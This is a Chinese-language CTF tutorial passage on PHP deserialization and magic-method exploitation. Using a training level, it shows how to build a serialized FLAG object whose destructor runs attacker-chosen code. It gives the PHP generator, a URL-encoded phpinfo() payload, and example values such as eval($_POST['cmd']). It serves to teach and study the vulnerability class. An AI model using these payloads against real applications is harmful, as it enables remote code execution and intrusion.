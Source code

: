 ### 3. PHP 对象注入与魔术方法利用 (Object Injection & Magic Method Exploitation)

*   **原理:** 当 `unserialize()` 处理用户可控的数据时，攻击者可以构造序列化字符串来实例化任意已定义的类，并控制其属性。如果这些类中存在某些魔术方法（特别是 `__destruct`, `__wakeup`）执行了危险操作（如 `eval()`, `system()`, 文件包含/删除，SQL 查询等），并且这些操作受到对象属性值的影响，就可能导致漏洞。
*   **示例 (Level 7 - 实例化和反序列化):**
    *   代码存在 `unserialize($obj_string)`，且 `FLAG` 类有 `backdoor()` 方法可执行命令，该方法在 `__destruct()` 中可能被间接调用或直接利用。
    ![实例化和反序列化 1](/hello_ctf/images/Serialize11.png) (类定义显示 `__destruct` 调用 `backdoor`，`backdoor` 执行 `$this->key`)
    *   **构造 Payload:** 创建一个 `FLAG` 类的序列化对象，将 `key` 属性设置为要执行的 PHP 代码（例如 `system('ls');` 或 `eval($_POST["cmd"]);`）。
        ```php
        <?php
        class FLAG {
            public $key = "phpinfo();"; // 设置要执行的代码
            // 其他属性和方法... 
            // __destruct 会调用 backdoor($this->key)
        }
        $obj = new FLAG();
        echo urlencode(serialize($obj)); 
        ?>
        ```
        生成的 payload: `O%3A4%3A%22FLAG%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D`